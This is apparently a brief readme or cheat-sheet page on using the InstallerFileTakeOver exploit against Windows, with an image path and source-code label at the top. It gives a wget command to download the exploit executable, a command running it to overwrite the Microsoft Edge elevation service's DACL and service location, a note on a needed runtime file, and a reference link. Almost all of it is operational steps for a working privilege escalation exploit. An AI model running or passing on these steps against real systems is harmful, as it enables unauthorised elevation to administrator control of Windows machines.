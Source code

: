 ### download
```
wget https://github.com/klinix5/InstallerFileTakeOver/blob/main/InstallerFileTakeOver/Release/InstallerFileTakeOver.exe
```

### execute and overwrite Microsoft Edge elevation service DACL and overwrite service location
```
.\InstallerFileTakeOver.exe C:\Windows\system.ini
```

### additional informations
```
The exploit needs an additional file (VisualC-Runtime) inside the same directory (https://aka.ms/vs/17/release/vc_redist.x86.exe).
```

### References
https://github.com/klinix5/InstallerFileTakeOver  

